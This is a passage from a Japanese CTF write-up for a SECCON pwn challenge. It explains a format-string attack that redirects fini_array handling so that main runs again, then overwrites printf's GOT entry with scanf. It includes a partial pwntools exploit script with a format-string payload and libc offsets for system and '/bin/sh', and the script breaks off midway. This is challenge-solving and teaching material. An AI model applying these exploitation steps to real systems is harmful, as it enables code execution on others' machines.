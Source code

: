 ```
```
https://elixir.bootlin.com/glibc/glibc-2.39.9000/source/elf/dl-call_fini.c#L23

今回のfini_arrayは0x403e18なので0x10b0を足すと0x404ec8になる。  
0x404ec8にはFSBで_startのアドレスを書き込んでいるので、2回目のmain関数が実行可能である。

```
$readelf -S ./chall
...
  [22] .fini_array       FINI_ARRAY       0000000000403e18  00003e18
       0000000000000008  0000000000000008  WA       0     0     8
```

2回目のmainでは先述のprintfのgot領域をscanfに変える手法を使う。
libcリークをすることにより、scanfとprintfの下位3byte目が一致しない場合を除いてexploitが刺さるようになった。
(理論上15/16の確率だが、実際には%cで出力する文字数が多すぎると失敗しているような感じがする)

```python
#!/usr/bin/python3
from pwn import *
import sys
import time

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

FILE_NAME = "./chall"
#"""
HOST = "paragraph.seccon.games"
PORT = 5000
"""
HOST = "localhost"
PORT = 7777
#"""

if len(sys.argv) > 1 and sys.argv[1] == 'r':
        conn = remote(HOST, PORT)
else:
        conn = process(FILE_NAME)

elf = ELF(FILE_NAME)
addr_main = elf.symbols["main"]
got_printf = elf.got["printf"]

libc = ELF('./libc.so.6')
off_binsh = next(libc.search(b"/bin/sh"))
off_system = libc.symbols["system"]
off_printf = libc.symbols["printf"]
off_scanf = libc.symbols["__isoc99_scanf"]

off_rdi_ret = 0x0010f75b
fini_array = 0x403e18

def exploit():
        conn.recvuntil(".\n")

        payload = b'%*38$p%8$n%33$hn'
        payload += p64(0x404ec8)[:-1]

        conn.send(payload)
        conn.recvuntil("0x")
        off_gomi = 0x7ffff7f5d8c0 - 0x7ffff7dab000 # remained libc address in rsi
        addr_libc = int(conn.recv(12),16) - off_gomi

```